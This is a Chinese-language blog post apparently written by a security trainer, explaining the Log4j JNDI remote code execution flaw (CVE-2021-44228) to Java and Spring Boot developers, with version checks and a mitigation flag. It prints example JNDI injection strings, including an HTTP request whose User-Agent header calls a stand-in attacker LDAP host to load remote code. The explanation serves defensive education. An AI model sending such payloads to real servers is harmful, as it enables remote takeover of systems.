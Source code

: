 #  给开发工程师讲的log4j漏洞原理  
原创 鲶鱼爱魔方  透明魔方   2025-07-21 11:12  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/U6oY6Hu3lnkHRtXJqQhBsk5ico9jOFZoPLnkWNvjdSqEIV7rsnh4DVdZ7iaoWkWyOAS7z7dicicibJyoNx08O3LAa0Q/640?wx_fmt=jpeg "")  
  
前几天，某安服厂商拉到了某开发公司的培训单子，需要给开发、运维、测试人员做一个网络安全培训。  
  
这可是个稀罕活儿，因为国内很少接到这种单子，安服的客户基本都是  
合规  
刚需客户（政府、事业单位和大型国企）  
  
甲方指定要特别给  
开发工程师讲讲log4j漏洞。  
  
cf有点好奇，于是问：“为什么要特别讲这个漏洞呢？”  
  
甲说：“实不相瞒，在下所在的公司因为开发问题出现过严重的数据泄露事件，然后这个漏洞我们公司出现的可能性比较高，所以要讲讲。”  
  
后来  
cf  
打听到这家客户  
技术栈主要为Java，开发框架主要为springboot。  
这种情况和**Log4j 漏洞**  
（CVE-2021-44228）确实有潜在关联。  
  
比如这家客户的 Spring Boot 应用使用了**Log4j 2.x**  
作为日志框架，那么就可能存在安全风险。  
  
下面cf啰里吧嗦的把Log4j漏洞与Spring Boot的关系说一下：  
  
先说说Log4j 漏洞  
（CVE-2021-44228）  
  
Log4j 2.x（版本 <= 2.15.0）存在远程代码执行漏洞，攻击者可以  
按漏洞所需的条件  
构造一个恶意的日志输入，输入中含的恶意的代码就会执行啦。  
（这个后面还会详细说）  
  
再说说Spring Boot，  
Spring Boot本身不强制使用Log4j 2.x ，但如果项目中手动引入了Log4j-core依赖（如通过pom.xml或build.gradle)，则存在风险。  
  
接下来，我们看一个项目的依赖文件pom.xml示例。  
贴的这段配置，就是告诉 Maven：“去给我买 Log4j 这个日志库！”，在这个里面，重点关注<version>2.x.x</version>，一定要检查版本是否  
<= 2.15.0。  
  
```
<!-- Maven依赖示例 -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.x.x</version> <!-- 版本 <= 2.15.0 存在风险 -->
</dependency>
```  
  
  
小字备注，有的做安全的萌新（不怎么做开发）可能对Maven不懂，我这边稍微解释一下。可以把Maven想象成一个“代码商店+自动管家”，啥叫代码商店呢？我们开发Java项目时，你需要很多别人写好的代码，这些代码都存在Maven中央仓库里，就像一个巨型代码超市。啥叫自动管家呢？你不用自己去超市一个个下载代码文件，只需要在项目里写一行配置，Maven就会自动帮你去“代码超市”找到对应的代码包，下载到你的项目里，还会自动帮你处理这些代码包之间的依赖关系，不用你一个个找。  
项目里可能用到几十个库（日志、数据库、工具类…），Maven 能集中管理它们的版本，避免版本冲突。  
  
不过总的来说，Spring Boot版本与Log4j有如下的关系：  
<table><tbody><tr><td data-colwidth="147"><section><span style="color: rgba(0, 0, 0, 0.95);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 600;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(242, 242, 242);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">Spring Boot 版本</span></span></section></td><td data-colwidth="116"><section><span style="color: rgba(0, 0, 0, 0.95);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 600;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(242, 242, 242);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">默认日志框架</span></span></section></td><td data-colwidth="243"><section><span style="color: rgba(0, 0, 0, 0.95);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 600;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(242, 242, 242);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">风险说明</span></span></section></td></tr><tr><td data-colwidth="147"><section><span style="color: rgba(0, 0, 0, 0.8);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2.4.x 及以上</span></span></section></td><td data-colwidth="116"><section><span style="color: rgba(0, 0, 0, 0.8);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">Logback</span></span></section></td><td data-colwidth="243"><section><span style="color: rgba(0, 0, 0, 0.8);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">若未手动引入 Log4j 2.x，则安全</span></span></section></td></tr><tr><td data-colwidth="147"><section><span style="color: rgba(0, 0, 0, 0.8);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2.3.x 及以下</span></span></section></td><td data-colwidth="116"><section><span style="color: rgba(0, 0, 0, 0.8);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">Log4j 2.x</span></span></section></td><td data-colwidth="243"><section><span style="color: rgba(0, 0, 0, 0.8);font-family: Inter, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, &#34;SF Pro SC&#34;, &#34;SF Pro Display&#34;, &#34;SF Pro Icons&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, sans-serif;font-size: 15px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: 2;text-align: left;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">需检查版本是否高于 2.17.1</span></span></section></td></tr></tbody></table>  
可以通过检查依赖、升级版本或切换日志框架，以消除安全隐患。  
若无法立即升级，可通过添加 JVM 参数禁用 JNDI 功能。  
```
-Dlog4j2.formatMsgNoLookups=true
```  
  
嗯，接下来，我们好好把Log4j漏洞  
（CVE-2021-44228）说一下。  
  
这个漏洞使得攻击者能够通过利用Log4j2中的JNDI（Java 命名和目录接口）  
查找功能，在服务器上执行任意代码。  
  
看来罪魁祸首就是这个  
JNDI  
查  
找功能。  
  
看看这个JNDI查找功能都有什么设计缺陷吧：  
  
当系统记录包含${jndi:ldap://attacker.com/x}  
字符串时：  
1. **表达式解析（Parsing）**  
  
Log4j2首先会**解析**  
日志内容中的${}  
表达式结构，识别出这是一个JNDI查找指令。  
  
1. **JNDI查找（Lookup）**  
  
接着会执行**JNDI查找**  
操作：  
  
1. 根据协议（ldap/rmi/dns）初始化对应服务  
  
1. 向attacker.com  
的LDAP服务发起查询请求  
  
1. 接收LDAP服务器返回的序列化对象引用  
  
1. **动态加载（Dynamic Loading）**  
  
如果返回的是远程Java对象引用（如javaFactoryClass  
），JVM会：  
  
1. 从攻击者指定的URL下载.class文件  
  
1. 通过类加载器实例化该对象  
  
1. 执行其构造函数/静态代码块  
  
这个问题，本质上是利用了 Log4j2 对 JNDI 查找功能的 “安全校验缺失”—— 它没有判断这个 “查找请求” 是否来自可信来源，就盲目执行了。  
  
  
专业点来说，原始版本未对JNDI查找做：  
- 协议白名单验证  
  
- 目标地址过滤  
  
- 类加载限制  
  
  
  
这个漏洞的可怕之处在于：攻击者能通过网络 “隔空” 让大量使用 Log4j2 的服务器 “听话”，执行任何恶意操作，因此被称为 “史诗级漏洞”。  
  
接下来，再举个例子解释一下，我的目标是萌新也能看懂。  
（谁叫我以前是做老师的呢，职业强迫症使然）  
1. **构造恶意请求**  
  
攻击者发送特制的HTTP请求，在User-Agent头中植入JNDI注入代码：  
  
```
GET/HTTP/1.1
Host:vulnerable-server.com
User-Agent:${jndi:ldap://malicious-server.com/a}
```  
  
**触发日志记录**  
  
存在漏洞的服务器在记录User-Agent头时，会解析其中的JNDI表达式  
1. **执行恶意代码链**  
  
1. 服务器向malicious-server.com  
发起LDAP查询  
  
1. 从攻击者控制的LDAP服务器获取恶意Java类  
  
1. 自动加载并执行该类中的代码  
  
1. **攻击完成**  
  
恶意代码在服务器上运行，攻击者获得系统控制权  
  
敲黑板，任何会被记录到日志的输入点都可能成为攻击载体，包括：  
- HTTP头字段（X-Forwarded-For/Referer等）  
  
- 请求参数（GET/POST）  
  
- Cookie值  
  
好了，我现在对可能出现的场景——漏洞原理——漏洞举例做了一个解释的闭环，不知道看官您看懂了没？如果没看懂，把下面的名词解释再看看。  
  
接下来是名词解释：  
  
什么是Log4j？  
  
Log4j是Apache开发的一款常用日志记录工具  
（  
是 Java 生态中最常用的 **日志管理库（library）**  
），而Log4j2 是它的一个版本。这个漏洞影响巨大，被视为严重的安全问题。  
  
**什么是JNDI？**  
  
**Java 命名和目录接口：一个帮 Java 程序 “通过简单名字 + 属性信息” 快速找到并访问各种资源的工具。**  
  
**它是 Java 平台的一项技术，用于在 Java 应用程序中查找和访问各种资源，比如数据库连接、命名对象等。可以把JNDI想象成一个大型商场的 “导航索引系统”，帮助Java应用程序快速找到需要的 “资源店铺”。例如，在 Java 应用程序中，当需要获取数据库连接资源时，开发人员就像商场里要找餐厅的顾客，会通过 JNDI 提供的接口，传入数据库连接对应的名称（比如 “myDBConnection”），JNDI 就会去查找并返回数据库连接的详细信息，像数据库服务器的地址、端口号、用户名和密码等，然后应用程序就能依据这些信息建立与数据库的连接，就如同顾客按照导航索引找到餐厅并进入用餐一样。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/U6oY6Hu3lnkHRtXJqQhBsk5ico9jOFZoPQAzibibCIQuX1YsfI6yxlQjegE6nTPzb8vk7cy75JFInT5emeqZMiaFvA/640?wx_fmt=png&from=appmsg "")  
  
  
点“在看”过20，明天我就po一个  
log4j漏洞复现的  
实操贴。  
  
ps ：本人最近在研究网络安全运营平台SOC功能和相关技术，正在用相关平台的用户，或者研究开发过类似产品的朋友可以加我V：catfishfighting，务必备注SOC，需要帮我填一份调查问卷，填好我就拉你进SOC群，大家一起交流学习，后续我也会在群里公布我的小调研结果。  
  
  
  
  
  
